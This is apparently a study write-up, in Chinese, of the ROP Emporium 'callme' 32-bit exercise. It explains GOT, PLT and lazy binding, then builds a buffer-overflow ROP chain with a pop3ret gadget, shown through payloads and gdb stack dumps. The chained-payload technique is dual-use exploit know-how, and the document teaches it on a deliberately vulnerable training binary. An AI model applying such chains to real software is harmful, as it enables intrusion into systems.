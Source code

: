 ## Static Link 与 Dynamic Link
程式的 link 分为 `static link` 和 `dynamic link`

| Method | Desc | Pros & Cons |
| --- | --- | --- |
| Static Link | 会把外部函数的代码，一起打包到单一个执行档里 | 快，占空间 |
| Dynamic Link | 需先载入 shared library，等到要执行 library 里某个函数的时候 ，再 call (jmp进去) | 慢，省空间 |
<br>

* 为何后者省空间：若三个程式都要用 printf()，static link 需要加载三份 printf()，而 dynamic link 只需要加载一份。
* shared library = shared object (.so)

<br>

## GOT 与 PLT
问题：Dynamically linked 的程序，在 runtime 是如何執行到 shared library 里的函數呢？

先看看 GOT 与 PLT 两大功臣。

| Table | Section | Name | 功用 |
| --- | --- | --- | --- |
| GOT | .got.plt | Global Offset Table | 存 shared library 函数在内存中的实际位址（一个函数一条entry） |
| PLT | .plt | Procedure Linkage Table | (1) 存 shared library 函数在 GOT 对应到的 entry (2) 解析函数实际位址 |

简单来说：

1. 调用一个 shared library function 时，eip 会先跳到 PLT，然后立马跳到 GOT。
2. 如果是第一次呼叫某个外部函数，它在 GOT 中记录的「实际 address」，会是「未解析」的状态。
3. 该 GOT entry 此时所填的位址，会指向 PLT 中的「函数位址解析」函数
4. 此时会再跳回 PLT ，调用这个特殊函数来解析目标函数的位址。
5. 解析完成后， GOT entry 所记录的「实际 address」 就会自动更新，然后就正式调用该函数。
6. 下次调用该函数时，由于 GOT 已记录该函数的「实际 address」，已不再是「未解析」的状态了，所以可以直接调用。

详细：https://ropemporium.com/guide.html

<br>

## Lazy Binding
问题：为什么需要 Lazy Binding？不能在程式执行前，就填好 GOT 吗？

可以。只要执行 `export LD_BIND_NOW=1` 然后运行你的程式即可，

但 startup time 会慢一点，因为要事先解析所有 shared library functions 的「实际address」（小程式感觉没啥差异）

<br>

## Reverse
上一题 (1-split) 我们藉由 bof 返回到 usefulFunction() 里的 `call system()`，以下我们称呼这种方法 ret2call。

ret2call 有个致命的缺点，就是我们没办法控制他的 return address，因为 return address 是由 call 指令把它 push 上去的。

---

所以在这题里，我们要改变策略，直接 ret2function 里，同时把 return address 与参数都摆在适合的地方。

但这题「必须」依序调用 callme_one(1,2,3) -> callme_two(1,2,3) -> callme_three(1,2,3) 才能取得 flag。

建构 payload：
```
11 * "AAAA" +
callme_one + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00" +
callme_two + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00" +
callme_three + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00"
```

但这样是行不通的，如果我们直接用 gdb 进行 single stepping，当程序运行到 callme_one 的时候，stack 就坏了
```
 ► 0xf7fcf6d0 <callme_one>       push   ebp       # 刚进入 callme_one， push esp「尚未执行」
   0xf7fcf6d1 <callme_one+1>     mov    ebp, esp
   0xf7fcf6d3 <callme_one+3>     push   ebx
   0xf7fcf6d4 <callme_one+4>     sub    esp, 0x14
   0xf7fcf6d7 <callme_one+7>     call   __x86.get_pc_thunk.bx <0xf7fcf5a0>

   0xf7fcf6dc <callme_one+12>    add    ebx, 0x1924
   0xf7fcf6e2 <callme_one+18>    cmp    dword ptr [ebp + 8], 1
   0xf7fcf6e6 <callme_one+22>    jne    callme_one+219 <0xf7fcf7ab>

   0xf7fcf6ec <callme_one+28>    cmp    dword ptr [ebp + 0xc], 2
   0xf7fcf6f0 <callme_one+32>    jne    callme_one+219 <0xf7fcf7ab>

   0xf7fcf6f6 <callme_one+38>    cmp    dword ptr [ebp + 0x10], 3
─────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────
00:0000│ esp  0xffffc760 ◂— 0x1    # esp 应该要是 return address ！！！！！
01:0004│      0xffffc764 ◂— 0x2
02:0008│      0xffffc768 ◂— 0x3
03:000c│      0xffffc76c —▸ 0xf7dc000a ◂— '_realloc'
04:0010│      0xffffc770 —▸ 0xf7f8f000 ◂— 0x1e1d6c
... ↓
06:0018│      0xffffc778 ◂— 0x0
07:001c│      0xffffc77c —▸ 0xf7dc7a11 (__libc_start_main+241) ◂— add    esp, 0x10
```

<br>

我们错在哪？首先，ret2call不需要塞 return address，**但 ret2func / ret2libc 需要塞 return address**，

所以 payload 应该要长下面这样，是吧？（先不管 callme_three）
```
11 * "AAAA" +
callme_one + callme_two "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00"
```

我草，虽然 callme_one 结束可以 return 到 callme_two，但是又碰到了和什么一样的状况：stack 上没有 return address
```
 ► 0xf7fcf7cd <callme_two>        push   ebp        # 刚进入 callme_two， push esp「尚未执行」
   0xf7fcf7ce <callme_two+1>      mov    ebp, esp
   0xf7fcf7d0 <callme_two+3>      push   esi
   0xf7fcf7d1 <callme_two+4>      push   ebx
   0xf7fcf7d2 <callme_two+5>      sub    esp, 0x10
   0xf7fcf7d5 <callme_two+8>      call   __x86.get_pc_thunk.bx <0xf7fcf5a0>
──────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ esp  0xffffc764 ◂— 0x1    # esp 应该要是 return address ！！！！！
01:0004│      0xffffc768 ◂— 0x2
02:0008│      0xffffc76c ◂— 0x3
03:000c│      0xffffc770 —▸ 0xf7f8000a ◂— 0x43140e0a
04:0010│      0xffffc774 —▸ 0xf7f8f000 ◂— 0x1e1d6c
05:0014│      0xffffc778 ◂— 0x0
06:0018│      0xffffc77c —▸ 0xf7dc7a11 (__libc_start_main+241) ◂— add    esp, 0x10
07:001c│      0xffffc780 ◂— 0x1
```

<br>

所以我归纳出一个 ROP Chain... Rule：

> 如果要用 ret2func 达成 ROP Chain，每次 return 前必须额外 ret2gadget 把目前函数的全部参数 pop 掉。

ret2gadget 要怎么选 gadget？ 有几个参数就 pop 几个。这题里面，三个函数都是带三个参数，所以选 pop3ret (pop * 3 + ret)
```
pop; pop; pop; ret
```

可以通过 `ROPGadget --binary callme32` 找到全部 ROP gadget 的位址，上述这个就是这样找到的。

<br>

## Pwn
Final payload：
```
11 * "AAAA" +
callme_one + pop3ret + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00" +
callme_two + pop3ret + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00" +
callme_three + "AAAA" + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00"
```

ROP Chain:
```
pwnme() -> callme_one(1,2,3) -> callme_two(1,2,3) -> callme_three(1,2,3)
```

以上 payload 各行的说明：
1. padding
2. 返回到 callme_one(), callme_one(1,2,3) 结束时返回到 pop3ret。pop * 3 后...
3. 返回到 callme_two(), callme_two(1,2,3) 结束时返回到 pop3ret。pop * 3 后...
3. 返回到 callme_three(), callme_three(1,2,3) 结束时返回到 AAAA (we don't care)

<br>

## 结论
> 如果要用 ret2func 达成 ROP Chain，每次 return 前必须额外 ret2gadget 把目前函数的全部参数 pop 掉。
```
padding +
func1 + pop_n_ret + n * arguments +
func2 + pop_n_ret + n * arguments +
func3 + pop_n_ret + n * arguments +
...
```

不带参数的话，应该就不用 pop_n_ret 这步了，可以直接接下一个 func 的位址...吧 (?)
